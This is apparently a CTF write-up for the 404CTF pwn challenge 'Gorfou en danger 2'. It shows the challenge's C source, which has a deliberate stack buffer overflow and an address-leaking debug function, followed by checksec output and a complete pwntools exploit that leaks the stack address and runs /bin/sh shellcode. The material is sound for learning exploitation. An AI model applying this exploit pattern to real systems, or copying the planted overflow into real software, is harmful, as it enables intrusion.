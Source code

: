 ```yaml
---
layout: post
title: Gorfou en danger 2
date: 11/06/2025
categories: [ctf, pwn]
tag: [pwn, ctf]
author: Paw
description: wu for the Gorfou en danger n°2 in 404CTF
---
```


```C
#include <unistd.h>
#include <stdlib.h>
#include <stdio.h>
#include <stdint.h>

int main(void);

void menu() {
    puts("      __                                                                       ");
    puts("     /\\ \\                                                                    ");
    puts("    /  \\ \\      >>========================================================<< ");
    puts("   / /\\ \\ \\     ||░█▀▄░█▀▀░█▀▀░█▀▀░░░█▀▀░█▀█░█▀█░█▀▀░█▀█░█░░░█▀▀░░░█░█░▀▀▄||");
    puts("  / / /\\ \\ \\    ||░█░█░█░█░▀▀█░█░█░░░█░░░█░█░█░█░▀▀█░█░█░█░░░█▀▀░░░▀▄▀░▄▀░||");
    puts(" / / /__\\_\\ \\   ||░▀▀░░▀▀▀░▀▀▀░▀▀▀░░░▀▀▀░▀▀▀░▀░▀░▀▀▀░▀▀▀░▀▀▀░▀▀▀░░░░▀░░▀▀▀||");
    puts("/ / /________\\  >>========================================================<<  ");
    puts("\\/___________/                                                                ");
}

void debug_info(void) { 
    // our very own "info proc map"
    printf("main address : %p\n", &main);
    printf("printf address : %p\n", *(uint64_t *)0x403008);
    void* local_var = NULL;
    printf("Stack address : %p\n", &local_var);
    return;
}

void take_command() {
    char command[0x100];
    
    printf("> ");
    read(0, command, 0x130);
    printf("Commande inconnue\n");
}

int main(void) {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    menu();

    printf("Terminal de contrôle à distance de la station orbilate Penrose\n");

    while (1) {
        take_command();
    }

    return 0;
}
```
In the challenge source code we can see a function called : `debug_info`

After a simple checksec we can see that NX protection is disable and there is no PIE :
```bash
    gorfou-en-danger-2 checksec --file=chall      
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   RW-RUNPATH   43 Symbols	 No	0		2		chall

```
An exploit model is given in the challenge. This model can generate shellcode, and it is not necessary to specify that this shellcode will be useful.

```C
void debug_info(void) { 
    // our very own "info proc map"
    printf("main address : %p\n", &main);
    printf("printf address : %p\n", *(uint64_t *)0x403008);
    void* local_var = NULL;
    printf("Stack address : %p\n", &local_var);
    return;
}
```

This function leak the stack adress. 

With the help of a little ret2win we will go to the `debug_info` function.

> we have already dealt with this subject

Sooo, we can stock the leak and then do a simple ret2shellcode

> : shellcode + some junk until the EIP/RIP adress + adress of the bottom of the stack 

wu: 
```python
from pwn import *

exe = ELF("./chall")
context.binary = exe

def conn():
    if args.LOCAL:
        r = process("./chall")
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = process("./chall")
    return r

def generate_shellcode():
    shellcode_asm = """
        xor     rdx, rdx
        movabs  rbx, 0x68732f6e69622fff
        shr     rbx, 8
        push    rbx
        mov     rdi, rsp
        xor     rax, rax
        push    rax
        push    rdi
        mov     rsi, rsp
        mov     al, 0x3b
        syscall 
        push    1
        pop     rdi
        push    0x3c
        pop     rax
        syscall 
	"""
    shellcode = asm(shellcode_asm, bits=64)
    return shellcode


def main():
    r = conn()
    r.recvuntil(b"> ")
    debug_addr = p64(0x00000000004004ed)
    main_addr = p64(0x0000000000400584)
    sc = generate_shellcode()
    offset = 264
    p1 = b'a'*offset + debug_addr + main_addr 
    r.sendline(p1)
    leak = r.recv().split(b' : ')

    main = int(leak[1].split(b'\n')[0][2:], 16)
    printf = int(leak[2].split(b'\n')[0][2:], 16)
    stack = int(leak[3].split(b'\n')[0][2:], 16)

    print(f'main={hex(main)}')
    print(f'printf={hex(printf)}')
    print(f'stack={hex(stack)}')
    
    pay = sc
    pay += b'a' * (offset - len(sc))
    pay += p64(stack - 0x100)
    r.sendline(pay)
    r.interactive()

if __name__ == "__main__":
    main()

```
